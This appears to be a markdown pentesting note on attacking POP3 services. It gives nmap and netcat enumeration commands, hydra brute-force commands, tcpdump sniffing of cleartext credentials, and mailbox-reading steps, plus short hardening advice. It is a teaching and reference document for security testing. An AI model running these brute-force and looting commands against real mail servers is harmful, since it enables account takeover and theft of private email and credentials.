

# 29 - POP3 (Ports 110-995) Pentesting

## 1. Executive Summary

POP3 (Post Office Protocol v3) retrieves email from a mailbox over **TCP 110** (cleartext) and **995** (POP3S/TLS). It is a download-and-read protocol — clients pull mail to the device. For a pentester it offers **credential brute force**, **cleartext credential sniffing** on port 110, information disclosure (banner/NTLM), and, once you have creds, full read access to a user's mailbox (password resets, internal docs, more credentials).

## 2. Protocol Overview & Architecture

Simple stateful text protocol: `USER`/`PASS` (or `APOP`/`AUTH`) to log in, then `STAT` (count/size), `LIST`, `RETR n` (read message), `DELE n`. Capabilities are advertised via `CAPA`. Plain port 110 sends credentials in the clear unless STLS/STARTTLS is negotiated.

## 3. Enumeration & Footprinting

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -p 110,995 <IP>
nc -nv <IP> 110
> CAPA            # advertised features
> USER test
> PASS test
```
`pop3-ntlm-info` (Exchange) leaks NetBIOS/DNS name and OS build.

## 4. Exploitation Deep Dive

### 4.1 Credential Brute Force
```bash
hydra -L users.txt -P pass.txt -f <IP> pop3
hydra -L users.txt -P pass.txt -f -S <IP> pop3s   # over TLS
```

### 4.2 Cleartext Sniffing (port 110)
On-segment capture reveals `USER`/`PASS`:
```bash
tcpdump -i eth0 -A 'tcp port 110'
```

### 4.3 Mailbox Looting
```bash
nc -nv <IP> 110
USER bob
PASS Summer2026!
LIST
RETR 1            # read messages: reset links, creds, internal info
```

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Mailboxes contain password-reset emails (→ account takeover), credentials, and internal intelligence.
- Reuse mailbox creds against OWA/AD/VPN.

## 7. Defense & Hardening
1. Enforce POP3S (995) / STLS; disable cleartext 110.
2. Strong passwords + lockout + MFA on mail; consider disabling POP3 if unused.
3. Patch the mail server; restrict exposure.

## 8. Chaining Opportunities
- Mailbox reset links → **[[Account Takeover]]**.
- Creds → **[[05 - SMTP (Port 25) Pentesting]]** / OWA.

## 9. Related Notes
- [[30 - IMAP (Ports 143-993) Pentesting]]
- [[05 - SMTP (Port 25) Pentesting]]

## 10. Tools
`nc`, `hydra`, `nmap` pop3-*, `openssl s_client` (for 995).
